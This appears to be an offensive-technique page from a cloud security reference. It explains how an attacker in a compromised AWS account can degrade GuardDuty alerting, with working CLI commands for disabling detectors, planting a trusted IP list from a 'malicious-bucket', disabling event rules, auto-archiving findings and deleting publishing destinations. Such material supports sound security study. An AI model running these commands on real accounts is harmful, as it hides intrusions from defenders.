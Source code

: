 ```yaml
---
author: Ben Leembruggen
title: Modify GuardDuty Configuration
description: Modify existing GuardDuty configurations in the target account to hinder alerting and remediation capabilities.
---
```


When an account has been successfully compromised, an attacker can modify threat detection services like GuardDuty to reduce the likelihood of their actions triggering an alert. Modifying, as opposed to outright deleting, key attributes of GuardDuty may be less likely to raise alerts, and result in a similar degradation of effectiveness.  The actions available to an attacker will largely depend on the compromised permissions available to the attacker, the GuardDuty architecture and the presence of higher level controls like [Service Control Policies](https://docs.aws.amazon.com/organizations/latest/userguide/orgs_manage_policies_scps.html). 

Where GuardDuty uses a delegated admin or invite model, features like detector configurations and IP Trust lists are centrally managed, and so they can only be modified in the GuardDuty administrator account. Where this is not the case, these features can be modified in the account that GuardDuty is running in.

---
## Misconfiguring the Detector
An attacker could modify an existing GuardDuty detector in the account, to remove log sources or lessen its effectiveness.

Configuration changes may include a combination of:

- Disabling the detector altogether.  
- Removing Kubernetes and s3 as data sources, which removes all [S3 Protection](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_finding-types-s3.html) and [Kubernetes alerts](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_finding-types-kubernetes.html).  
- Increasing the event update frequency to 6 hours, as opposed to as low as 15 minutes.


**Required permissions to execute:**

- guardduty:ListDetectors
- guardduty:UpdateDetector

Example CLI commands
```
# Disabling the detector
aws guardduty update-detector \
    --detector-id 12abc34d567e8fa901bc2d34eexample \
    --no-enable 

# Removing s3 as a log source
aws guardduty update-detector \
    --detector-id 12abc34d567e8fa901bc2d34eexample \
    --data-sources S3Logs={Enable=false}

# Increase finding update time to 6 hours
aws guardduty update-detector \
    --detector-id 12abc34d567e8fa901bc2d34eexample \
    --finding-publishing-frequency SIX_HOURS
```

---
## Modifying Trusted IP Lists
An attacker could create or update GuardDuty's [Trusted IP list](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_upload-lists.html), including their own IP on the list.  Any IPs in a trusted IP list will not have any Cloudtrail or VPC flow log alerts raised against them. 

*DNS findings are exempt from the Trusted IP list.*

**Required permissions to execute:**

- guardduty:ListDetectors
- guardduty:ListIPSet
- iam:PutRolePolicy
- guardduty:CreateIPSet (To create new list)
- guardduty:UpdateIPSet (To update an existing list)

*Depending on the level of stealth required, the file can be uploaded to an s3 bucket in the target account, or an account controlled by the attacker.*


Example CLI commands
```
aws guardduty update-ip-set \
    --detector-id 12abc34d567e8fa901bc2d34eexample \
    --ip-set-id 24adjigdk34290840348exampleiplist \
    --location https://malicious-bucket.s3-us-east-1.amazonaws.com/customiplist.csv \
    --activate
```

---
## Modify Cloudwatch events rule
GuardDuty populates its findings to Cloudwatch Events on a 5 minute cadence.  Modifying the Event pattern or Targets for an event may reduce GuardDuty's ability to alert and trigger auto-remediation of findings, especially where the remediation is triggered in a member account as GuardDuty administrator protections do not extend to the Cloudwatch events in the member account. 

!!! Note  
    In a delegated or invitational admin GuardDuty architecture, cloudwatch events will still be created in the admin account.

**Required permissions to execute:**

- event:ListRules
- event:ListTargetsByRule
- event:PutRule
- event:RemoveTargets

Example CLI commands
```
# Disable GuardDuty Cloudwatch Event
aws events put-rule --name guardduty-event \
--event-pattern "{\"source\":[\"aws.guardduty\"]}" \
--state DISABLED

# Modify Event Pattern
aws events put-rule --name guardduty-event \
--event-pattern '{"source": ["aws.somethingthatdoesntexist"]}'

# Remove Event Targets
aws events remove-targets --name guardduty-event \
--ids "GuardDutyTarget"
```

---
## Supression Rules
Newly create GuardDuty findings can be automatically archived via [Suppression Rules](https://docs.aws.amazon.com/guardduty/latest/ug/findings_suppression-rule.html). An adversary could use [filters](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_filter-findings.html) to automatically archive findings they are likely to generate. 

**Required permissions to execute:**

* guardduty:CreateFilter

Example CLI commands

```
aws  guardduty create-filter --action ARCHIVE --detector-id 12abc34d567e8fa901bc2d34e56789f0 --name yourfiltername --finding-criteria file://criteria.json
```

Filters can be created using the [CreateFilter API](https://docs.aws.amazon.com/guardduty/latest/APIReference/API_CreateFilter.html).

---
## Delete Publishing Destination
An adversary could disable alerting simply by deleting the destination of alerts.

**Required permissions to execute:**

* guardduty:DeletePublishingDestination

Example CLI commands

```
aws guardduty delete-publishing-destination --detector-id abc123 --destination-id def456
```